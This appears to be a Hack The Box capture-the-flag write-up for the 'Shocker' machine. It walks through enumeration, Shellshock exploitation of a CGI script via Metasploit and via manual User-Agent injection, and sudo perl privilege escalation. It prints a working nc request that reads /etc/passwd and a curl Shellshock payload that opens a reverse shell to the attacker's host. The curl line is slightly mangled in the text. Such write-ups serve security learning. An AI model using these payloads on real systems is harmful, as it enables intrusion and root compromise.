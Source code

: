 ```yaml
---
layout: PostSimple
date: 2019-12-03
title:     "Hack The Box - Shocker"
tags: ['linux','easy','sudo','shellshock']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/108](https://www.hackthebox.eu/home/machines/profile/108)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/3.png)[br/](br/)
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0[&1 2](&1 2)&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.